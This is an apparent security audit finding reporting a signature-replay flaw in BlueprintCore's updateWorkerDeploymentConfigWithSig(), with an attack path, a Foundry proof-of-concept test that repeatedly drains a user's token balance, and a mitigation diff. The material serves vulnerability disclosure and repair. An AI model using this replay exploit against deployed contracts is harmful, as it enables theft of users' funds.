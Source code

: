 Soaring Caramel Dragon

High

# Missing signature invalidation in `BlueprintCore::updateWorkerDeploymentConfigWithSig()` allows token balance draining and configuration update replay

### Summary

Missing signature invalidation in `BlueprintCore::updateWorkerDeploymentConfigWithSig()` causes unauthorized token deductions and configuration update replay as attackers can use the same signature multiple times to repeatedly charge the user's token balance for configuration updates.

### Root Cause

The `BlueprintCore.sol::updateWorkerDeploymentConfigWithSig()` function verifies signatures but does not invalidate them after use, allowing the same signature to be reused for multiple configuration updates.

Here is the `updateWorkerDeploymentConfigWithSig()` function:
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L672-L686

And here is the logic executing token transfers and updating the deployment config that could be called multiple times by replay the same signature
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L648-L660

### Internal Pre-conditions

1. User has a project with a deployment

### External Pre-conditions

1. User signs a message authorizing a deployment configuration update
2. User has sufficient token balance to pay for updates (only if update agent cost is set)
3. Token is approved for the contract to spend (only if update agent cost is set)

### Attack Path

1. User signs a message to update deployment configuration once
2. User calls `BlueprintCore::updateWorkerDeploymentConfigWithSig()` with valid parameters and signature
3. Configuration update succeeds and user is charged `paymentOpCostMp[tokenAddress][UPDATE_AGENT_OP]` tokens
4. Attacker replays the same signature by calling the function again with identical parameters
5. Each replay results in additional token charges to the user
6. Process can be repeated until user's token balance or allowance is exhausted

### Impact

The user suffers direct loss of funds through:
1. Unauthorized token deductions for each signature replay
2. No limit to number of replays possible
3. Tokens are transferred to `feeCollectionWalletAddress`
4. Attack continues until user's balance/allowance is depleted

### PoC

Create a new test case in `test/BlueprintCoreConfigUpdateReplay.t.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {MockERC20} from "./MockERC20.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";

contract BlueprintCoreConfigUpdateReplayTest is Test {
    BlueprintV5 blueprint;
    MockERC20 public token;

    address user;
    uint256 userPk;

    address worker = address(0x2);
    address attacker = address(0x3);

    uint256 agentUpdateCost = 1e18;

    function setUp() public {
        (user, userPk) = makeAddrAndKey("user");

        token = new MockERC20();

        blueprint = new BlueprintV5();
        blueprint.initialize();
        blueprint.addPaymentAddress(address(token));

        blueprint.setUpdateCreateAgentTokenCost(address(token), agentUpdateCost);
        blueprint.setFeeCollectionWalletAddress(address(this));
    }

    function test_configUpdateReplay() public {
        uint256 initialBalance = 5e18;
        token.mint(user, initialBalance);

        // Owner creates deployment
        vm.prank(user);
        bytes32 projectId = keccak256("test-project");
        bytes32 requestID =
            blueprint.createAgentWithToken(projectId, "base64proposal", address(0), "server.url", address(token));

        // Worker1 picks up deployment
        vm.startPrank(worker);
        blueprint.submitDeploymentRequest(projectId, requestID);
        blueprint.submitProofOfDeployment(projectId, requestID, "proof");

        (BlueprintCore.Status status,) = blueprint.requestDeploymentStatus(requestID);
        assertEq(uint256(status), uint256(BlueprintCore.Status.GeneratedProof));

        assertEq(token.balanceOf(user), initialBalance);

        // Owner update config with signature
        vm.startPrank(user);
        // Approve the contract to spend the user's tokens
        token.approve(address(blueprint), initialBalance);

        string memory updatedBase64Config = "newConfig";
        bytes32 digest = blueprint.getRequestDeploymentDigest(projectId, updatedBase64Config, "app.crestal.network");
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);
        blueprint.updateWorkerDeploymentConfigWithSig(address(token), projectId, requestID, "newConfig", signature);

        // Validate the config is updated
        (BlueprintCore.Status statusUpdated,) = blueprint.requestDeploymentStatus(requestID);
        assertEq(uint256(statusUpdated), uint256(BlueprintCore.Status.Pickup));
        assertEq(token.balanceOf(user), initialBalance - agentUpdateCost);

        // worker submit proof of deployment again
        vm.startPrank(worker);
        blueprint.submitProofOfDeployment(projectId, requestID, "proof");

        (BlueprintCore.Status statusUpdated2,) = blueprint.requestDeploymentStatus(requestID);
        assertEq(uint256(statusUpdated2), uint256(BlueprintCore.Status.GeneratedProof));

        // Attacker uses the same signature to update config again
        vm.startPrank(attacker);
        blueprint.updateWorkerDeploymentConfigWithSig(address(token), projectId, requestID, "newConfig", signature);
        (BlueprintCore.Status statusUpdated3,) = blueprint.requestDeploymentStatus(requestID);
        // Attacker can update config again
        assertEq(uint256(statusUpdated3), uint256(BlueprintCore.Status.Pickup));
        // Attacker caused user to pay again
        assertEq(token.balanceOf(user), initialBalance - agentUpdateCost * 2);

        // Attacker repeats the attack multiple times
        blueprint.updateWorkerDeploymentConfigWithSig(address(token), projectId, requestID, "newConfig", signature);
        blueprint.updateWorkerDeploymentConfigWithSig(address(token), projectId, requestID, "newConfig", signature);
        blueprint.updateWorkerDeploymentConfigWithSig(address(token), projectId, requestID, "newConfig", signature);

        assertEq(token.balanceOf(user), 0);
    }
}
```

Run the test case:

```bash
forge test --mt test_configUpdateReplay
```

### Mitigation

Track used signatures to prevent replay:

```diff
+ mapping(bytes32 => bool) private usedSignatures;

function updateWorkerDeploymentConfigWithSig(...) public {
    bytes32 digest = getRequestDeploymentDigest(...);
+   require(!usedSignatures[digest], "Signature already used");
+   usedSignatures[digest] = true;
    // ... rest of the function
}
```